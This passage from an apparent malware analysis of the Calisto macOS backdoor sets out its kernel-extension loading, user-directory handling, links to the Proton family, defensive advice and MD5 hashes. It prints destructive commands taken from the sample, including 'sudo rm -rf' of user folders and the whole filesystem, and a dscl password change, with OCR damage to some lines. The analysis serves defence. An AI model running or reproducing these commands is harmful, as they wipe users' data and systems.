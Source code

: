 ```
sudo kextload /System/Library/Extensions/AppleUSBTopCase.kext
sudo kextload /System/Library/Extensions/AppleUSBMultitouch.kext
sudo kextload /System/Library/Extensions/IOUSBFamily.kext
sudo kextload /System/Library/Extensions/IOUSBMassStorageClass.kext
```

```
sudo kextload /System/Library/Extensions/IOUSBMassStorageDriver.kext\
```
Loading/unloading of kernel extensions

| sudo dscl . - passwd /Users/$USER | sudo rm -rf /Users/ /Downloads /Users/ /Documents /Users/ /Desktop /Users/ /Pictures /Users/ /Music /Users/ /Movies /Users/ /* /Users/ /.calisto /Users/ /Library/.cid /Users/ /Users/

Working with user directories

("/.* && sudo rm -rf ~/.Trash/* && sudo rm -rf /",

Self-destruction together with the entire system

#### Connections with Backdoor.OSX.Proton

Conceptually, the Calisto backdoor resembles a member of the Backdoor.OSX.Proton family:

The distribution method is similar: it masquerades as a well-known antivirus (a Backdoor.OSX.Proton was previously distributed under the guise of a Symantec antivirus product)

The Trojan sample contains the line "com.proton.calisto.plist"

Like Backdoor.OSX.Proton, this Trojan is able to steal a great amount of personal data from the user system, including the contents of Keychain

Recall that all known members of the Proton malware family were distributed and discovered in 2017. The Calisto Trojan we detected was created no later than 2016. Assuming that this Trojan was written by the same authors, it could well be one of the very first versions of Backdoor.OSX.Proton or even a prototype. The latter hypothesis is supported by the large number of unused and not fully implemented functions. However, they were missing from later versions of Proton.

To protect against Calisto, Proton, and their analogues:

Always update to the current version of the OS

Never disable SIP

Run only signed software downloaded from trusted sources, such as the App Store

Use antivirus software

#### MD5

DMG image: d7ac1b8113c94567be4a26d214964119 Mach-O executable: 2f38b201f6b368d587323a1bec516e5d

MALWARE DESCRIPTIONS APPLE MACOS BACKDOOR

## Authors

![](_page_10_Picture_11.jpeg)
